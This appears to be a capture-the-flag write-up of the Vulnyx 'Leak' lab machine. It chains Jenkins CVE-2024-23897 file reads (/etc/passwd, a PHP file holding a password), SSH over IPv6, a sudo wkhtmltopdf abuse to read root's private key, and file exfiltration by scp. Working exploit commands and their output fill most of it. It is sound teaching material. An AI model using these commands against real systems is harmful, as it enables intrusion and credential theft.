

**Platform:** Vulnyx\
**Operating System:** Linux

> **Tags:** `Linux` `Jenkins` `CVE-2024-23897` `Arbitrary File Read` `IPv6 Bypass` `Pspy64` `Sudoers` `Data Exfiltration`

## INSTALLATION

We download the `zip` containing the `.ova` of the Leak machine, extract it, and import it into VirtualBox.

We configure the network interface of the Leak machine and run it alongside the attacker machine.

## HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to Leak, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```

Info:

```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:cc:8c:61      1      60  PCS Systemtechnik GmbH      
 10.0.4.36       08:00:27:49:c2:35      1      60  PCS Systemtechnik GmbH
```

We identify with high confidence that the victim’s IP is `10.0.4.36`.

## PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.36
```

```bash
nmap -n -Pn -sCV -p80,8080 --min-rate 5000 10.0.4.36
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-09 20:02 CET
Nmap scan report for 10.0.4.36
Host is up (0.00018s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Apache2 Debian Default Page: It works
8080/tcp open  http    Jetty 10.0.13
|_http-server-header: Jetty(10.0.13)
|_http-title: Panel de control [Jenkins]
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 08:00:27:49:C2:35 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

We identify open ports `80` and `8080`.

We access the web service on port `80` and find a default `Apache2` page.

## GOBUSTER

We perform `directory fuzzing` to try to locate hidden directories or files.

```bash
gobuster dir -u http://10.0.4.36 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:

```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.4.36
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/connect.php          (Status: 200) [Size: 0]
Progress: 22313 / 1543906 (1.45%)
```

We discover a `connect.php` file, but navigating to it simply reveals a blank page.

With no other initial leads, we access port `8080` and encounter a Jenkins instance:


We navigate to the People tab:



We identify a user named `george`.

For the moment, we cannot do anything with this user, so we must continue searching for potential attack vectors.

In the bottom right corner of the dashboard, we can see the Jenkins version: `Jenkins 2.401.2`.

We search online for exploits related to this `Jenkins` version.

## EXPLOIT

We find a `CVE` associated with it that allows us to access files via the `CLI`.

```
Jenkins Arbitrary File Read Through the CLI (CVE-2024-23897)
```


```bash
wget http://10.0.4.36:8080/jnlpJars/jenkins-cli.jar
```

Info:

```
--2025-12-16 20:55:25--  http://10.0.4.36:8080/jnlpJars/jenkins-cli.jar
Connecting to 10.0.4.36:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3447904 (3.3M) [application/java-archive]
Saving to: ‘jenkins-cli.jar’

jenkins-cli.jar     100%[===================>]   3.29M  --.-KB/s    in 0.04s   

2025-12-16 20:55:25 (91.8 MB/s) - ‘jenkins-cli.jar’ saved [3447904/3447904]
```

We can now use the following command to perform an `arbitrary file read`:

```bash
java -jar jenkins-cli.jar -s http://10.0.4.36:8080/ -http connect-node "@/etc/passwd"
```

Info:

```
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:100:65534::/nonexistent:/usr/sbin/nologin" exists.
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin: No such agent "systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin" exists.
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin: No such agent "gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin" exists.
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin: No such agent "systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin" exists.
avahi:x:107:114:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin: No such agent "avahi:x:107:114:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin" exists.
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
george:x:1000:1000:george:/home/george:/bin/bash: No such agent "george:x:1000:1000:george:/home/george:/bin/bash" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin: No such agent "messagebus:x:103:109::/nonexistent:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin: No such agent "sshd:x:105:65534::/run/sshd:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin: No such agent "systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin" exists.
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin: No such agent "systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin" exists.
jenkins:x:106:112:Jenkins,,,:/var/lib/jenkins:/bin/bash: No such agent "jenkins:x:106:112:Jenkins,,,:/var/lib/jenkins:/bin/bash" exists.
geoclue:x:108:115::/var/lib/geoclue:/usr/sbin/nologin: No such agent "geoclue:x:108:115::/var/lib/geoclue:/usr/sbin/nologin" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

We observe that we are able to read the `/etc/passwd` file by exploiting this vulnerability.

We attempt to read the content of the `connect.php` file found earlier on port `80`.

```bash
java -jar jenkins-cli.jar -s http://10.0.4.36:8080/ -http connect-node "@/var/www/html/connect.php"
```

Info:

```
: anonymous no tiene el permiso Nodo/Connect
$password = "g30rg3_L3@k3D";: No such agent "$password = "g30rg3_L3@k3D";" exists.
$servername = "localhost";: No such agent "$servername = "localhost";" exists.
<?php: No such agent "<?php" exists.
$username = "george";: No such agent "$username = "george";" exists.
?>: No such agent "?>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

We obtain credentials that likely belong to the user `george` : `g30rg3_L3@k3D`.

We attempt to authenticate on the `Jenkins` login panel using these credentials.


However, we are unsuccessful.

We read the `if_inet6` file via the `CLI` and find something interesting.

```bash
java -jar jenkins-cli.jar -s http://10.0.4.36:8080/ -http connect-node "@/proc/net/if_inet6"
```

Info:

```
00000000000000000000000000000001 01 80 10 80       lo: No such agent "00000000000000000000000000000001 01 80 10 80       lo" exists.
fe800000000000000a0027fffe49c235 02 40 20 80   enp0s3: No such agent "fe800000000000000a0027fffe49c235 02 40 20 80   enp0s3" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

We observe an `IPv6 address` configured on the `enp0s3` interface.

We launch a `port scan` against this `IP` address.

```bash
nmap -n -Pn -sS -p- --open --min-rate 5000 -6 fe80::a00:27ff:fe49:c235%eth1
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-16 21:12 CET
Nmap scan report for fe80::a00:27ff:fe49:c235
Host is up (0.000097s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
MAC Address: 08:00:27:49:C2:35 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.74 seconds
```

We notice that port `22` (SSH) is now open, which was previously unavailable.

We attempt to authenticate via `SSH` using the credentials found earlier.

```bash
ssh george@fe80::a00:27ff:fe49:c235%eth1
```

Info:

```
The authenticity of host 'fe80::a00:27ff:fe49:c235%eth1 (fe80::a00:27ff:fe49:c235%eth1)' can't be established.
ED25519 key fingerprint is: SHA256:3dqq7f/jDEeGxYQnF2zHbpzEtjjY49/5PvV5/4MMqns
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'fe80::a00:27ff:fe49:c235%eth1' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
george@fe80::a00:27ff:fe49:c235%eth1's password: g30rg3_L3@k3D
george@leak:~$
```

It works!

## PRIVILEGE ESCALATION

We check for `sudo` privileges and `SUID` binaries.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for george on leak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User george may run the following commands on leak:
    (root) NOPASSWD: /usr/bin/wkhtmltopdf
```

We identify that we can execute the `wkhtmltopdf` binary with `root` privileges.

After some research, we discover that this binary is used to convert HTML files to PDF. However, it is not strict regarding file formats.

We continue enumerating. We transfer `pspy64` from our attacking machine and execute it on the victim machine.

```bash
cd /tmp
wget http://10.0.4.12/pspy64
chmod +x pspy64
./pspy64
```

Info:

```
2025/12/16 21:25:10 CMD: UID=0     PID=2      | 
2025/12/16 21:25:10 CMD: UID=0     PID=1      | /sbin/init 
2025/12/16 21:26:01 CMD: UID=0     PID=1043   | /usr/sbin/CRON -f 
2025/12/16 21:26:01 CMD: UID=0     PID=1045   | /usr/sbin/CRON -f 
2025/12/16 21:26:01 CMD: UID=0     PID=1046   | /bin/sh -c /usr/bin/file /root/private.txt
```

In the output, we see that a file named `private.txt` exists within the `/root` directory. We can leverage the `wkhtmltopdf` binary to convert this file into a `PDF` in order to read it.

```bash
sudo /usr/bin/wkhtmltopdf /root/private.txt private.pdf
```

Info:

```
QStandardPaths: XDG_RUNTIME_DIR not set, defaulting to '/tmp/runtime-root'
Loading page (1/2)
Printing pages (2/2)                                               
Done
```

We transfer the generated `private.pdf` file to our attacking machine. From our machine, we execute:

```bash
scp -6 george@\[fe80::a00:27ff:fe49:c235%eth1\]:/tmp/private.pdf /home/trihack/
```

Info:

```
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
george@fe80::a00:27ff:fe49:c235%eth1's password: g30rg3_L3@k3D
private.pdf
```

Once obtained, we proceed to view its content:


We identify it as an `SSH private key`, likely belonging to the `root` user.

We copy the content from the PDF into a `.txt` file and assign the necessary `permissions`.

```bash
nano privateroot
chmod 600 privateroot
```

Next, we attempt to authenticate as `root` via `SSH` using this `private key`.

```bash
ssh -i privateroot root@fe80::a00:27ff:fe49:c235%eth1
```

Info:

```
root@leak:~# whoami
root
root@leak:~#
```

We are now root!

Finally, we obtain the `user flag` and the `root flag`:

```
root@leak:~# cat .r00000000000000t.txt 
89c441988949961e48d5085c3d70c9f1
root@leak:~# cat /home/george/user.txt 
f65335b64773d249e3f7372c0b79c2c6
```
